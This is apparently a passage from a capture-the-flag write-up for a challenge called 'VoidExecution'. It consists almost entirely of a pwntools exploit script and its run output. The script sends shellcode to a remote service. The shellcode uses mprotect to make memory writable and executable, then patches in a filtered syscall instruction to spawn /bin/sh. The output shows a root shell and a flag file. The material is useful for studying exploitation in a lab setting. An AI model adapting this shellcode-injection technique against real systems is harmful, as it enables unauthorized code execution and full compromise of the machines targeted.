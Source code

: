 ```bash
#!/usr/bin/env python3
from pwn import *
# Adjust target IP and port as needed
target = remote("xx.xxx.xxx.xx", 9008)
context.arch = 'amd64'
# These offsets must be obtained from analyzing the local ELF binary
main_offset = 0x12eb         # Replace with actual main offset
mprotect_offset = 0x1100     # Replace with actual mprotect PLT offset
# Base address is 0xc0de0000, length 100 bytes
shellcode = asm(f"""
    /* Compute mprotect address from r13 (holds main at runtime) */
    lea rbx, [r13 - {main_offset} + {mprotect_offset}]
    mov rdi, 0xc0de0000       /* address to change perms */
    mov rsi, 0x64             /* length */
    mov rdx, 0x7              /* PROT_READ | WRITE | EXEC */
    call rbx                  /* mprotect(addr, len, prot) */
    /* Setup execve("/bin/sh", NULL, NULL) */
    xor rsi, rsi
    xor rdx, rdx
    mov rax, 0x3b             /* syscall: execve */
    mov rdi, 0x68732f6e69622f
    push rdi
    mov rdi, rsp
    /* Self-modifying syscall patch */
    inc byte ptr [rip + syscall]
    inc byte ptr [rip + syscall + 1]
    syscall:
    .byte 0x0e, 0x04          /* placeholder for syscall */
""")
print(f"[+] Sending {len(shellcode)} bytes of shellcode...")
target.recvuntil(b"Send to void execution:")
target.sendline(shellcode)
target.interactive()
```

<img width="907" height="464" alt="image" src="https://github.com/user-attachments/assets/57a83c83-93fc-4c14-8191-f3c7afc9eab3" />

<br>
<br>

```bash
(rose) ...:~/VoidExecution# python3 script.py
[*] Checking for new versions of pwntools
    To disable this functionality, set the contents of /root/.cache/.pwntools-cache-3.8/update to 'never' (old way).
    Or add the following lines to ~/.pwn.conf or ~/.config/pwn.conf (or /etc/pwn.conf system-wide):
        [update]
        interval=never
[*] A newer version of pwntools is available on pypi (4.13.1 --> 4.14.1).
    Update with: $ pip install -U pwntools
[+] Opening connection to xx.xxx.xxx.xx on port 9008: Done
[+] Sending 74 bytes of shellcode...
[*] Switching to interactive mode
 

voided!

$ id
uid=0(root) gid=0(root) groups=0(root)
$ pwd
/home/ctf
$ ls
flag.txt
ld-linux-x86-64.so.2
```